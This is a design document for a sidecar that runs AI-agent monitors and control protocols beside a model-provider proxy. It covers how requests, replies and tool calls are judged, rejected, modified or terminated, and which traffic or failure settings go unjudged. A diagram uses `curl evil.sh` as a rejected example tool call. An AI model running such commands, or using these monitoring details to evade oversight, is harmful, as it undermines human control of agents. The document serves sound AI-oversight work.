

# Host in a proxy: the sidecar

Status: partly built, design updated 2026-10-14. Each section says what is built, what has been measured and what is only designed. The table near the end, "Built and not built", collects this in one place. A claim marked **measured** was run and observed. Section 9 defines how Inspect and the sidecar exchange task facts, decisions and records. This document builds on the deployment design in [sentinel-deployment.md](sentinel-deployment.md) and on the spikes in [proxy-host.md](proxy-host.md), and it does not repeat either of them.

The sidecar is a program that runs sentinels beside an HTTP proxy, where the proxy sits in front of a model provider's API. The proxy hands the sidecar each model request and each reply. The sidecar also runs the steps before and after each tool call, from the tool calls in a reply and the tool results in the next request, and tells an Inspect client what it decided. The sidecar turns these inputs into the steps a sentinel judges, runs the same monitors and protocols that run inside an eval, and returns decisions to whoever must apply them. The code is the package `inspect_sentinel.sidecar`.

## Two kinds of client

The sidecar runs sentinels for two kinds of client.

- **An Inspect eval.** Inspect makes the model calls, for its own agents and for bridged ones. Inspect can tell the sentinel about the task and the sample, and it can act on what the sidecar answers.
- **A naked agent.** The agent makes the model calls itself. Examples are Claude Code in a sandbox, and any agent in deployment. The sentinel has only what is in the model traffic, and the sidecar's answer goes to a program that knows nothing about sentinels.

```
  Inspect eval     Inspect  --->  proxy  --->  provider
  Naked agent      agent    --->  proxy  --->  provider
                                    |
                                 sidecar, running the sentinel
```

A naked agent needs no change to have its model traffic judged. An Inspect eval says which sample each request belongs to, registers its tasks where that is allowed, and is told what the sentinel decided, as section 9 describes. That part of Inspect is not built yet. Whoever runs the proxy chooses the sentinel.

When the sentinel runs in a sidecar, Inspect talks to it through `RemoteSentinel`, the piece of Inspect that acts as the sidecar's client. It finds the sidecar, registers task facts where that is allowed, sends the request context, and reads what the sidecar decided. The sidecar runs the sentinel. It judges what it can see in the model requests and replies that pass through the proxy. It also coordinates the steps before and after each tool call, which it finds in the tool calls of a reply and the tool results of the next request.

## Words used in this document

- **Sentinel.** The monitors and protocols that watch an agent, as a task configures them with `Task(sentinel=...)` or an operator configures them for a sidecar.
- **`LocalSentinel` and `RemoteSentinel`.** How Inspect reaches a sentinel. These are proposed names, in inspect_ai. At each step, Inspect asks one of them for a decision and applies it. `LocalSentinel` runs the sentinel in Inspect's process. `RemoteSentinel` stands in for a sentinel that runs in a sidecar: it drives no step itself, and answers from what the sidecar decided.
- **Host.** Where a sentinel runs: Inspect's process, or the sidecar. The core package's `Host` interface is narrower. It is what a sentinel calls for its side effects, such as a model call, and each host implements it. The sidecar's implementation is `SidecarHost`.
- **Step.** One thing a sentinel is asked to judge, such as a tool call the model has proposed. Each step belongs to one of four stages: before a model call, after a model call, before a tool call and after a tool call.
- **Decision.** What a sentinel says about a step: `proceed`, `reject`, `terminate`, `modify` or `escalate`.
- **Turn.** One reply from the model: its text and every tool call in it.
- **Conversation.** The list of messages that a model request carries.
- **Run.** One sample in one epoch, identified by the uuid the eval log gives the sample, or one session of a naked agent. A run can hold more than one conversation. A sample that Inspect retries after an error keeps its uuid, so it is the same run. Whether its state starts again or carries on is not designed.
- **Proxy hook.** Code of ours that a proxy runs, which forwards the proxy's model traffic to the sidecar. `MiddlemanHook` is one. It is not the proxy's own mechanism for running such code, which Middleman calls its passthrough hook. It is not an Inspect hook either, which is code that an eval runs.

## Goals

1. **One implementation of providers.** The sidecar reads and writes the formats of model providers with inspect_ai's Python code, and has no second implementation of its own. Where inspect_ai's code falls short of what a proxy needs, the gap is listed near the end of this document, under "Asked of inspect_ai", and raised with inspect_ai. The code is not forked.
2. **No in-process advantage.** A sentinel gains nothing from running in the same process as the eval. A task and its sentinel are written as if the sentinel were behind a proxy. Whatever an eval's own host gives a sentinel, the sidecar gives too, or the sidecar says that it cannot.
3. **A sidecar that is mostly independent of the proxy.** Middleman is supported first, LiteLLM second and Envoy third. What is specific to one proxy is kept out of the sidecar where it can be, in a proxy hook that the proxy runs. For a proxy that can run no code of ours, the sidecar has a thin adapter called a shim.

## 1. The shape

A request or a reply reaches the sidecar from a proxy. The handler works out what it means and what should happen to it. The sentinel runner runs the monitors and protocols.

```
   Middleman                 LiteLLM                   Envoy
   runs a proxy hook,        runs a proxy hook,        runs no code of ours
   MiddlemanHook             LiteLLMGuardrail
        |                         |                         |
        |     JSON over HTTPS     |                  bytes over gRPC
        +------------+------------+                     (ext_proc)
                     v                                      v
            endpoint for proxies                       Envoy shim
                     |                                      |
                     +------------------+-------------------+
                                        v
                                     handler
   a request or a reply in the provider's format, read into Inspect's types
   and made into steps; which run it belongs to; what was rejected; records
   an answer: pass, replace with this, or refuse and why
                                        |
                                        v    only plain data crosses here
                                 sentinel runner
   `run_sentinel` over the configured monitors and protocols; their store; their model calls
```

- **A proxy hook** is what a proxy runs, where the proxy can load code. It turns what that proxy hands over into the sidecar's messages, sends them, and carries out the answer in that proxy's terms. It knows nothing about sentinels or about model providers. Each proxy hook is a small package of its own, under `src/proxies`. LiteLLM's is `LiteLLMGuardrail`. Middleman's is `MiddlemanHook`, which is written and is kept out of this repository until Middleman has its passthrough hook.
- **The endpoint for proxies** is the same for every proxy hook. A proxy hook puts each request and each reply to it, and is answered with pass, replace or refuse. The endpoint for proxies uses JSON-RPC 2.0, at `POST /proxy/v1`, with the methods `judge_request` and `judge_reply`. JSON-RPC was chosen to be consistent with the endpoint for evals. The methods and their results are described by `proxy_endpoint.schema.json`, which is written from the endpoint's own models and kept beside it. A proxy hook is tested against that file.
- **A shim** is for a proxy that can run no code of ours, which today means Envoy. It speaks that proxy's own protocol, inside the sidecar. Its dependencies are an optional extra, so only a deployment behind that proxy installs them. No shim is built yet.
- **The handler** is the same for every proxy. The endpoint for proxies, or a shim, gives the handler a `Request` or a `Reply`, and the handler returns one of three answers: `Pass`, `Replace` or `Refuse`. The answer says what was decided. It does not say how the proxy should carry that out, because that is the proxy hook's job, or the shim's. A `Refuse` holds what the client is told: the status, the message and the response headers. Those are passed on in the proxy's own form and are not read on the way. A `Pass` or a `Replace` can also name response headers, which the proxy adds to a reply that goes through. The handler names none on those answers today.
- **The sentinel runner** is the core package's `run_sentinel` function, unchanged. Today it runs in the sidecar's process. Only steps and decisions pass between the handler and the runner, as plain data, so the runner can be moved to a process of its own later. Reasons to move it would be throughput, keeping a sentinel that fails away from the traffic, or running beside a proxy that is not written in Python.

Two rules keep the handler from being limited to what the least capable proxy can do. First, the handler is designed around what a sentinel needs, and not around what one proxy can supply. Second, when a proxy cannot do something, its proxy hook or its shim says so, and the capability stays in the handler for the other proxies.

**Nothing of this package runs in a proxy.** A proxy runs only a proxy hook, which forwards each request and each reply to the sidecar over HTTPS, as JSON. A proxy hook does not depend on inspect_sentinel or on inspect_ai, and is installed by itself. In the other direction, a sentinel imports only the core package and never the sidecar. A test checks that importing the core package does not load the sidecar.

### What each proxy hands over

| | Middleman | LiteLLM | Envoy |
|---|---|---|---|
| where the proxy's side runs | in `MiddlemanHook`, which Middleman loads through its passthrough hook and calls after the caller has signed in | in `LiteLLMGuardrail`, which LiteLLM loads as a guardrail and calls after the caller has signed in | no code of ours; Envoy's `ext_proc` filter calls the sidecar |
| a request arrives as | parsed JSON, in the provider's format | a dictionary, already parsed, that also holds LiteLLM's own working state | raw bytes |
| a reply arrives as | the provider's bytes, decompressed, held whole | the provider's bytes where Anthropic serves a request to the Messages route; otherwise LiteLLM's own objects, or a stream of them, which the guardrail holds | raw bytes, in chunks as the provider sends them |
| to refuse | Middleman writes an error in the provider's own format | the guardrail raises an exception, and LiteLLM writes the error in the format of the route | the sidecar sends an immediate response of its own |
| status | written and **measured** with an earlier form of the endpoint for proxies; not in this repository yet | built, **measured** with LiteLLM 1.105 and 1.83 and a stand-in provider | **measured** with an earlier Envoy processor; the shim is not built |

Middleman is to have a passthrough hook: a setting that names a class, which Middleman loads at startup. Middleman calls the class with each passthrough request before sending it to the provider. It then holds the provider's reply whole and calls the class with the reply. `MiddlemanHook` puts each one to the sidecar's endpoint for proxies, and the answer to each is pass, replace or refuse. The passthrough hook has been proposed to Hawk and is not yet merged. `MiddlemanHook` is written against an earlier form of the endpoint for proxies. It is kept out of this repository until Middleman has the passthrough hook, and it will then call the methods that `LiteLLMGuardrail` calls. It is explained in [proxies/middleman-proposal.md](proxies/middleman-proposal.md).

With each request, the proxy hook tells the sidecar the provider, the model's public name, the user, the run, the headers that say which job and sample the request belongs to, and any other request headers the operator has listed for the proxy hook. No credential is sent to the sidecar: Middleman removes the caller's before it calls the proxy hook. Who can reach the sidecar is the operator's to control: the sidecar listens at an address that only Middleman can reach (section 10). An operator can also limit the proxy hook to some of Middleman's channels. A channel is the kind of caller: an eval, a scan or a direct call. Traffic on the other channels never reaches the proxy hook and streams as it does when no proxy hook is set.

**Middleman's passthrough hook and `MiddlemanHook` are two different things, with different owners.**

- **Middleman owns the passthrough hook.** That covers when a loaded class is called, the holding of a reply, how long one call may take, and what a failed call means. A class loaded through it may decide entirely in process. Middleman knows nothing of the sidecar or of its messages.
- **This package owns `MiddlemanHook`**, the messages it sends and their schema, and the endpoint that receives them.
- **A sentinel's refusal and a failure are told apart.** `MiddlemanHook` turns a refusal from the sidecar into an `HTTPException`, which Middleman answers the client with. A sidecar that can't be reached, or whose answer can't be read, is raised as a `SidecarError`. Middleman's own setting then says whether the call is refused or let through.

**LiteLLM's proxy hook is `LiteLLMGuardrail`**, a package of its own in `src/proxies/litellm`. LiteLLM loads the class as a guardrail from its config. LiteLLM calls the guardrail with each model request before the request goes to a provider, and calls it again with the provider's reply before the caller is sent anything. The guardrail holds a streamed reply whole. It calls `judge_request` and `judge_reply` on the sidecar and carries out the result. LiteLLM needs nothing of its own in the sidecar.

- **The guardrail reads three of LiteLLM's routes**: `/v1/messages`, `/chat/completions` and `/responses`. A request to another route goes on unread.
- **The route decides the format of the body, and the provider does not.** LiteLLM serves any provider's model through any of the three routes, and converts the reply into the format of the route. A Claude model that is called through `/chat/completions` is answered in OpenAI's Chat Completions format. The guardrail therefore tells the sidecar the format, in the `format` parameter: `anthropic-messages`, `openai-chat` or `openai-responses`. The sidecar reads the body as that format.
- **The sidecar judges what the caller would be sent.** Where LiteLLM hands the guardrail its own objects, the guardrail writes them the way LiteLLM is about to write them for the caller. inspect_ai's converters then read LiteLLM's writing of each format.
- **A reply that LiteLLM converted from another provider's format is read, and one kind needs putting right first.** There are three such pairings: a Claude model through `/chat/completions`, a Claude model through `/responses`, and an OpenAI model through `/v1/messages`. With LiteLLM 1.105 and a stand-in provider, all three are read, streamed and not streamed, for replies that hold tool calls (**measured**). With real providers, all three pass the example task, and Claude's thinking is read on `/chat/completions` (**measured**). The exception is a Claude reply that holds thinking, asked for through `/responses`. LiteLLM writes the thinking as a `reasoning` item that has no `summary` field and whose parts are typed `output_text`, and OpenAI's own SDK types reject that item (**measured**). The sidecar reads a Responses reply with those types, so the whole reply would be unreadable. The guardrail therefore puts that item right in what it sends the sidecar: it adds the empty `summary` and types the parts `reasoning_text`. It does the same for a request whose client sent the item back as it got it. LiteLLM and the caller keep the item as LiteLLM wrote it, and where the sidecar replaces a request, LiteLLM is sent each item as the client sent it. With that, the example tasks pass for a Claude model that thinks, asked through `/responses`, with one retry for the rejected report, and a monitor is given the thinking (**measured**). Before it, 20 of 26 such calls were refused as unreadable and the task passed only by retrying. With LiteLLM 1.83, three of the six converted cases with the stand-in provider were not readable (**measured**).
- **LiteLLM's notes on the caller are not sent.** LiteLLM keeps the hash of the caller's key and every request header in the same dictionary as the request. The guardrail sends the sidecar only the fields of the request itself, and only the headers that name the run or that the operator has listed. It never sends a credential header.
- **Which requests are judged is LiteLLM's own setting.** `default_on` judges every request. Without it, LiteLLM calls the guardrail only for a request or a key that names it.
- **A sidecar that gives no usable answer is judged by LiteLLM's own setting for a guardrail**, `unreachable_fallback`. `fail_closed` refuses the call and `fail_open` lets it through. There is no time limit on the sidecar's answer unless the operator sets one.
- **LiteLLM writes the error a caller is sent**, so its form is LiteLLM's and differs by route (**measured**, LiteLLM 1.105). A refusal has the sentinel's message and status on every route but one: a streamed `/responses` reply is answered with status 200 and a `response.failed` event that holds the message. With LiteLLM 1.83, a refused streamed reply is answered with a 500 that does not hold the message (**measured**). Whether the `sentinel` field (section 9) reaches the caller intact on each route, on replies and on refusals, streamed and not, is not yet checked. Where it does not, Inspect falls back to asking the sidecar.
- **A replaced reply is handed back in LiteLLM's own classes**, because LiteLLM goes on to read its own notes from the reply. This is tested with LiteLLM's classes and has not been run through a LiteLLM proxy, because the sidecar does not replace a reply today.

Not yet run: LiteLLM's pass-through routes, such as `/anthropic/v1/messages`. LiteLLM's source shows no call that lets a guardrail hold a streamed reply on a pass-through route.

## 2. Reading provider traffic

The sidecar reads a provider's request or reply into Inspect's types with inspect_ai's converters. Those converters are functions over a complete request or a complete reply. Agents usually ask for a streamed reply, so the sidecar first puts a streamed reply back together into a whole one. It does this with the accumulator in each provider's SDK, which is what inspect_ai's own providers do.

```
bytes from the proxy → stream events → SDK accumulator → SDK reply → inspect_ai converter → ModelOutput
```

| API | From stream to whole reply | Status |
|---|---|---|
| Anthropic Messages | `accumulate_event`, a pure function in a private module of the SDK | built |
| OpenAI Chat Completions | the SDK's `ChatCompletionStreamState`, read as a snapshot | built |
| OpenAI Responses | the event that ends the stream holds the whole response | built |
| Gemini | the SDK has no accumulator | not started |

**Measured**, 2026-10-05. 21 streams recorded from the live APIs were all read correctly. They covered text, one tool call, parallel calls, text followed by a call, large arguments, reasoning, and turns cut off by the token limit. One Codex session and two captures from Anthropic's beta endpoint were also read correctly. Reading an ordinary turn took under 2 ms, and reading the largest took 15 to 50 ms, on a laptop with nothing warmed up. These measurements used the converters directly, before the sidecar existed. The sidecar's own tests replay eight replies that were recorded the same way.

The rules the sidecar follows when it reads traffic:

- **An unknown value is read, but unknown content makes the turn unreadable.** The sidecar parses field values as leniently as the provider SDKs parse them, so a provider that adds a new value or a new field does not break traffic. Content is treated differently. If a reply contains a content block of a kind the converter does not read, the sidecar treats the whole turn as unreadable. The reason is that the converter would otherwise drop the block, and a tool call that no monitor saw would reach the agent. For Anthropic, the sidecar checks the kind of each block itself, because inspect_ai's Anthropic converter drops an unknown block without an error. inspect_ai's Responses converter raises an error on an unknown item, so the sidecar needs no check of its own there.
- **A request or a reply that cannot be read is treated as one that could not be judged.** It is handled like a turn whose monitor raised an error or ran out of time. A deployment has one setting for all of these cases: refuse, or let through. The default is to refuse. Behind Middleman, that setting is Middleman's own. The sidecar answers the message with an HTTP error, and Middleman then refuses the call or lets it through, as it is configured.
- **The SDK's Beta types are never given to inspect_ai's converter.** Given a Beta type, the converter returns empty content and raises no error (**measured**). The sidecar uses the SDK's plain accumulator instead, which reads the stream from Anthropic's beta endpoint correctly.
- **A reply with more than one choice is unreadable**, because only the first choice would be judged.
- **A proxy hook can name the API a body is written in.** The `format` parameter of the methods for proxies is `anthropic-messages`, `openai-chat` or `openai-responses`. The sidecar then reads the body as that format, whatever the provider is called. This matters because the provider and the API are separate facts: OpenAI has two APIs, and a proxy can serve one provider's model through another provider's API. Without `format`, the sidecar works the API out from the provider's name and the body. It tells an OpenAI request apart by the field that holds its conversation, which is `messages` for Chat Completions and `input` for Responses, and it tells a reply apart by the reply's `object` field.
- **Each provider is an optional extra** (`anthropic`, `openai`), as in inspect_ai. A provider's SDK is imported the first time a reply from that provider is read. The minimum SDK versions are the same as inspect_ai's.
- **The sidecar depends on inspect_ai.** inspect_sentinel does already. inspect_ai keeps its wire types (`ChatMessage`, `ModelOutput`, `ToolCall`) in a subpackage, `inspect_ai.core`, so that a sentinel can run without the rest of inspect_ai. The sidecar needs more than that subpackage, because the converters it reads provider traffic with are in inspect_ai proper. Depending on less of inspect_ai is a later optimization, and nothing here waits for it.
- **The tests keep recorded replies as a corpus.** The corpus is there because the Anthropic accumulator is in a private module of the SDK, and its signature has already changed once between SDK releases. A release that changes it again fails these tests.
- **What Anthropic's accumulator loses, the sidecar loses too.** inspect_ai's Anthropic provider notes that the SDK's accumulator drops two things from a stream: compaction content and the code-execution container. The provider repairs both on its own stream object. The sidecar calls the accumulator directly, so it does not get those repairs. This was read in inspect_ai's source, and the loss has not been reproduced.
- **Some of what a request asks for is in its headers, and not in its body.** For example, the beta features a request turns on are named in a header. The sidecar sees that header only if the proxy passes it on. Behind Middleman, the operator chooses which headers are passed on.

A note for monitor authors: with Claude Haiku 4.5, a `ContentReasoning` block arrives with `redacted=True`. The readable thinking is in its `summary` field, and its `reasoning` field holds an opaque string. A monitor that wants the model's thinking reads `summary`.

Not yet checked:

- whole sessions recorded from Claude Code, and longer sessions from Codex
- the kinds of Responses item that inspect_ai's reader raises an error on. A local shell call and a reference to a stored item were seen to raise. inspect_ai's source lists image generation, code interpreter, file search and MCP approval items alongside them. Each of these makes a turn unreadable; none of them passes unseen.
- the Responses API's compaction endpoint, which Middleman routes
- Gemini
- the cost of reading under load, and on Linux

## 3. From traffic and client calls to steps

A proxy sees one model request and its reply at a time. It never sees a tool execute, so the sidecar finds the tool-call steps in the traffic on either side of it. All four stages are judged through the endpoint for proxies:

| Stage | Who initiates the check | Exchange | When |
|---|---|---|---|
| `BeforeGenerate` | proxy, while handling Inspect's model request | `judge_request` at `/proxy/v1` | before contacting the provider |
| `AfterGenerate` | proxy, after the provider replies | `judge_reply` at `/proxy/v1` | before releasing the model reply to Inspect |
| `BeforeToolCall` | the sidecar, for each tool call in the reply it holds | `judge_reply` at `/proxy/v1` | before the reply is released to the client |
| `AfterToolCall` | the sidecar, for each new tool result in the next request | `judge_request` at `/proxy/v1` | before the request goes to the provider |

The two model stages are judged within one client request and its response. Each tool-call stage is judged within the exchange that carries it: `BeforeToolCall` with the reply that proposes the call, and `AfterToolCall` with the request that carries its result. The generate stages are not built yet.

**Every client's tool-call steps are found the same way.** The sidecar builds `BeforeToolCall` from the calls in the reply it holds, and `AfterToolCall` from the tool results in the next request, whether the client is an Inspect eval or a naked agent. This is built and **measured**. A tool result that no later request carries is never judged. The model never sees that result either, so there is nothing for `AfterToolCall` to stop.

**What a step contains.** Every step is built from the request and the reply the proxy hands over. A step's `input` is the list of messages the model was sent, including any rejected turns the sidecar adds (section 4). A step's `history` is the conversation the sidecar keeps for the run, so that monitors are given the same turns Inspect would give them in process. A tool-call step's `view` is the one Inspect would make, as section 8 describes. `AfterToolCall.output` is left empty, because the request carries only the result the model is sent.

**A tool that the provider runs gets no `BeforeToolCall` step.** Web search, code interpreter and file search are examples. The provider has already run such a tool by the time the reply reaches the proxy, so a `BeforeToolCall` step would offer the sentinel a choice that no longer exists. The sidecar recognises these tools by name. Monitors can still see them in the model's output, which is where Inspect puts them. The one place to stop a tool that the provider runs is the request, before the model is called. A protocol narrows the list of tools offered at the `BeforeGenerate` stage, and the sidecar removes that one tool's definition from the request and leaves the rest of the request alone. A provider accepts a request whose history used a tool that the request no longer offers (**measured**, Anthropic). The narrowing depends on the generate stages and is not built. Not yet checked: OpenAI's provider-run tools; tools reached through a provider-side MCP connector; and a request whose `tool_choice` names the tool being removed.

## 4. From a decision to the wire

A sentinel's decision has to be carried out on the request or the reply that the proxy is holding. The table says what the sidecar does for each decision.

The sidecar carries out every decision on the request or reply it holds, for every client. An Inspect client is also told what was decided (section 9), so that it can record the decision as it would in process.

| Decision | What the sidecar does | Status |
|---|---|---|
| `proceed` | the provider's bytes are passed on as they came, with the `sentinel` field added for an Inspect client | built, without the field |
| `reject` | the rejected call is taken out of the reply, and the rest of the turn goes to the client. On every later request of the conversation, the call is put back with its rejection as its result. A turn whose calls are all rejected is refused with an error | refusing a whole turn is built and **measured**; taking out one call is not built |
| `terminate` | the client is sent an error that says a sentinel ended the run, and so is every later request of that run | built |
| `escalate` that no protocol takes | the core package turns it into a `terminate`, which the sidecar carries out as any other | built in the core package |
| `human()`, asking a person | the turn is held and the open question is kept in the run's state until a person answers (section 8) | not built; today the case is written to the log and the step goes on |
| `modify` | the call's block is replaced in the provider's original document, so the client runs the changed call. On every later request of the conversation, the model's original call is put back, so the model sees what it proposed, as it would in process | replacing a block is **measured** for Anthropic; not built in the sidecar |

### Refusing a turn

When the sidecar refuses a turn, the client receives an HTTP error in place of the model's reply. The error is in the provider's own error format and carries the reason.

- **A turn is refused whole only when none of it can go on.** That happens when a `terminate` ends the run, or when every tool call in the turn is rejected. A turn with no calls left reads to most agents as finished, so they stop. When only some calls are rejected, the sidecar takes those out and passes on the rest.
- **The status is 400.** A 403 is not used, because Claude Code reports any 403 as a failure to authenticate, whatever the body says (**measured**).
- **Only the decision's `message` is meant for the agent.** The `explanation` is for the log. For an Inspect client, it travels in the `sentinel` field, which Inspect reads and never shows the agent. For any other client, it stays in the sidecar.
- **An Inspect client is told what was decided in the body.** When the request carried `x-inspect-context`, the sidecar adds a `sentinel` field to what the client receives. On a refusal, the field sits beside the provider's error. On a reply that goes through, including one with calls taken out or changed, it sits beside the reply's own fields. It lists every step judged during the exchange, with each step's decision and records. Section 9 shows an example. Every other client gets the provider's error or reply unchanged.

### `reject`: the call is taken out, and the model is told

Inside an eval, a rejected tool call is not run. The other calls in the turn run, the rejection is put where the rejected call's output would have been, and the model is called again. Behind a proxy, the sidecar gets the same result without ever calling the provider itself:

1. The sidecar takes the rejected call out of the reply and passes on the rest of the turn. The client runs the calls that are left.
2. The sidecar keeps the rejected call and the reason, for that conversation.
3. On every later request of that conversation, the sidecar puts the rejected call back into the model's message. It adds the rejection as that call's tool result, beside the client's results for the other calls. These are the same entries Inspect adds in an eval's process, and inspect_ai renders them in the request's own format. Nothing else in the request is changed. The request is written out again as JSON, so it is equal to the original as data, but not byte for byte.
4. The model sees its own call and the rejection, and goes on from there.

When every call in the turn is rejected, the sidecar withholds the reply and refuses it with an error instead, because a turn with no calls left reads to most agents as finished. On the next request of that conversation, it adds the model's message, with each call's rejection as its result.

```
agent  -->  sidecar  -->  model      a request
            sidecar  <--  model      reply: run `ls /tmp` and `curl evil.sh`     curl rejected; taken out; kept
agent  <--  sidecar                  reply: run `ls /tmp`

agent  -->  sidecar                  the next request, with the result of `ls /tmp`
            sidecar  -->  model      the same request, with [the curl call] and ["rejected: no network access"] put back
agent  <--  sidecar  <--  model      the next reply
```

- **The rejection is put back for the rest of the conversation, and not for one request only.** The client never received the rejected call, so its own copy of the conversation never contains it. If the sidecar stopped putting it back, the model would see a conversation in which it had changed course for no reason, and it would propose the rejected call again (**measured**: it did). An Inspect client puts the call and its rejection back into its own copy, from the `sentinel` field. Its later requests then already hold them, and the sidecar adds nothing.
- **How the sidecar knows that a request continues a conversation.** The sidecar compares a digest of the request's entries with the digest it kept when it rejected the turn. The digest leaves out the parts that a client changes while the conversation stays the same. This matters for Anthropic, because inspect_ai's Anthropic provider moves its cache marks to the latest messages on every request. Entries compared exactly as written would match only an immediate retry. OpenAI's formats are compared as sent. For Anthropic, the model being told again on a later request, after the conversation has grown, is **measured**. For OpenAI, only the immediate retry has been seen.
- **Three rejected turns in a row end the run.** This is the limit that inspect_ai's bridge uses. A reply that passes starts the count again.
- **The status of a refused turn is configurable**, with `--reject-status`. The default is 400. A status that a client retries by itself, such as 503, makes the client send the request again, and the sidecar then adds the rejections to it (**measured** with an unmodified Inspect, on Anthropic and on both OpenAI APIs). An Inspect client that reads the `sentinel` field doesn't depend on the status. It puts the turn and its rejections into its own copy and calls the model again, as it would in process.
- **A naked agent that is refused a whole turn receives the error.** Claude Code reports a failure and stops (**measured**). For Claude Code the run ends there, unless someone starts it again. If it is started again and continues the same conversation, the sidecar adds the rejection as usual, so the model is told with no help from the agent.

Two other ways to carry out a `reject` were considered and not taken:

- **The proxy calls the model again itself, and passes the new reply to the client.** The client gets a reply and no error. But this makes the proxy a client of the provider.
- **The sidecar rewrites the reply, and puts text where the tool call was.** Most agents read such a reply as a finished turn, so they stop and wait.

### `terminate`: the run stays ended

Inside an eval, a `terminate` ends the sample, and Inspect makes no more model calls for it. Beside a proxy, the sidecar can only refuse requests. So when a sentinel ends a run, the sidecar refuses the request or the reply that the run was ended at, and then refuses the later requests of that run with the same error. The sentinel is not asked about those later requests.

Which later requests belong to the ended run depends on whether the run has a name (section 7).

- **A run that the proxy names.** Every later request with that name is refused, whichever conversation it carries. A subagent's conversation is refused too.
- **A run with no name.** The sidecar groups such requests by how the conversation opens, and every conversation with the same opening is in the same group. Refusing the whole group would refuse conversations that have nothing to do with the one that was ended, such as another person's session. So the sidecar refuses a later request only if it continues the conversation the run was ended in. A request continues that conversation if it starts with the same entries the conversation had when the run was ended. The sidecar tells by comparing hashes of the entries, because a request carries no id for its conversation.
- **A run with no name, ended before the sidecar passed on any reply in that conversation.** The ended conversation then holds only its opening. A later request that opens the same way could be a retry, or it could be someone else's first request, and nothing in the two requests differs. The sidecar does not remember this run as ended, and the sentinel judges the next request afresh. No request passes unjudged.

A run stays ended for as long as the sidecar holds the run's state, which today is in memory, in one process (section 10). Nothing an eval sends can undo it, because no method of the endpoint for evals changes a decision (section 9).

### `modify`: keep the original, replace one block

A `modify` decision changes the arguments of one tool call. To carry it out, the sidecar keeps the provider's original document and replaces only the block that changed. The client runs the changed call. On every later request of the conversation, the sidecar puts the model's original call back, so the model sees what it proposed followed by the result of what ran, as it would in process. An Inspect client keeps the original in its own copy, from the `sentinel` field, so the sidecar has nothing to put back.

The reason is what a full re-render loses. Rendering a whole turn back through inspect_ai keeps the content: thinking with its signature, text with citations, tool calls and server tool results. It loses what surrounds the content: cache marks, the request's top-level fields and usage detail (**measured**, Anthropic). So the sidecar keeps the provider's original document, has inspect_ai render the changed tool call as one block, and puts that block in place of the old one. In a test on a streamed reply, with new arguments for one call, 60 of 65 events went out byte for byte. The stream read back with the new arguments and the same thinking signature (**measured**).

Replacing one block needs something that inspect_ai does not supply: where each block sits in the provider's original document. The sidecar keeps a small map of that for each provider. The map is the one exception to goal 1, one implementation of providers.

**Replacing a whole request or a whole reply** follows the same idea. A replacement list of messages is mostly the same as the list it replaces. Unchanged messages keep their original bytes, and only the changed messages are rendered. A whole replacement reply, for an agent that asked for a stream, has to be written as a stream. inspect_ai has code that does this in its in-sandbox model proxy. Neither kind of replacement has been run. Two questions are open. The first is whether a provider's prompt cache still matches when the untouched parts are equal as data but not byte for byte. The second is whether it matters that a changed stream still carries the provider's original token counts.

Neither `modify` nor `reject` is legal after a tool call has run, so the sidecar never changes a tool's result. After a tool has run, a protocol can only `proceed` or `terminate`.

## 5. Holding a turn

A sentinel decides with the whole turn in front of it. Nothing from a reply can reach the client until the decision is made, so something has to hold the reply in the meantime. What holds it depends on the proxy.

- **Middleman holds the reply itself.** When the sidecar has answered, Middleman passes on the provider's bytes, or the replacement, or an error with a real HTTP status. Middleman holds back the provider's keepalives as well, so during a long generation the client hears nothing until the reply is finished. Middleman decompresses the provider's reply itself and sends replies to its clients uncompressed, so the sidecar handles no compression behind Middleman (**measured**).
- **Envoy does not hold the reply, so the sidecar does.** Envoy hands over chunks as the provider sends them. Envoy's `ext_proc` filter has four modes for a response body, and only the last of them works for holding a turn:

  | Response body mode | What happens (**measured**, Envoy 1.39.1) |
  |---|---|
  | `BUFFERED` | fails with a 500 above the connection buffer (1 MiB) and above gRPC's message size (4 MiB); deadlocks on a compressed body behind the decompressor |
  | `BUFFERED_PARTIAL` | corrupts data above the buffer limit |
  | `STREAMED` | wants one answer per chunk, so a processor that stays silent to hold a turn deadlocks |
  | `FULL_DUPLEX_STREAMED` | chunks arrive as sent, and the processor may answer when it likes |

  In `FULL_DUPLEX_STREAMED` mode, answering any response-body message commits the response's status, and staying silent does not. So for as long as the sidecar has answered nothing, it can still refuse with a real status. The Envoy shim is to use `FULL_DUPLEX_STREAMED` from its first version. It is also to raise the request-side message timeout, which is 200 ms by default, less time than a monitor that asks a model needs. The shim's Envoy configuration is to be generated, because each of these settings is wrong by default.
- **A hold has two limits: a largest size and a longest time.** There is a defined answer when either limit is passed. While nothing has been released to the client, that answer can be a real 503. Middleman has both limits: unless set otherwise, it waits 30 seconds for each answer from the sidecar and holds up to 32 MiB of reply. The sidecar has a size limit of its own on each message it reads from a proxy. That limit is 64 MiB by default and is set with `--max-body-bytes`. The sidecar answers a larger message with a 413 and does not pass it to the handler, and the proxy treats that as a turn that could not be judged. The default of 64 MiB is large enough for Middleman's largest reply, because Middleman sends a reply as base64, which is a third larger than the reply itself.
